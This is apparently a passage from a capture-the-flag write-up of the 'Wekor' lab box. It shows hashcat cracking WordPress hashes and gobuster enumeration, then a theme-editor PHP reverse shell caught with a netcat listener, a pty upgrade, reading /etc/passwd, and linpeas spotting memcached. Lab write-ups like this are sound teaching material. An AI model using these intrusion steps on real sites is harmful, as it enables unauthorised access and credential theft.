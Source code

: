 We found a list of users and password hashes.

Let's save the hashes and crack them using hashcat.
```
hashcat -m 400 hashwordpress /usr/share/wordlists/rockyou.txt --show
3 out of 4
```
We found 3 passwords. Let's attempt to login using them. 

BUT

Before we do that, we need to find a wordpress site. Remember that "site.wekor.thm" subdomain we found?

Let's add it to our "/etc/hosts", and enumerate it.

Gobuster on site.wekor.thm
```
/wordpress
/wordpress/wp-content
/wordpress/wp-includes
/wordpress/wp-admin
```
Now i'll try the 3 users we have credentials for, and most likely we'll have a theme editor shell in no time.

Aaand, we have dashboard access!

![dashboard](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/wekor_04.png)

## Exploitation

Let's get the theme editor running, and replace the 404.php content with a php shell.
```
# nc -lvnp 9002
Listening on 0.0.0.0 9002
Connection received on 10.10.174.31 46588
SOCKET: Shell has connected! PID: 2078
whoami
www-data
python3 -c 'import pty; pty.spawn("/bin/bash")'
<r.thm/wordpress/wp-content/themes/twentyseventeen$
```
By reading the passwd file, we identified another user, Orka.
```
Orka:x:1001:1001::/home/Orka:/bin/bash
```
Let's get linpeas and look for lateral privilege escalation.
```
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN
```
We see a service running on port 11211. A quick google search brings up Memcached caching system.
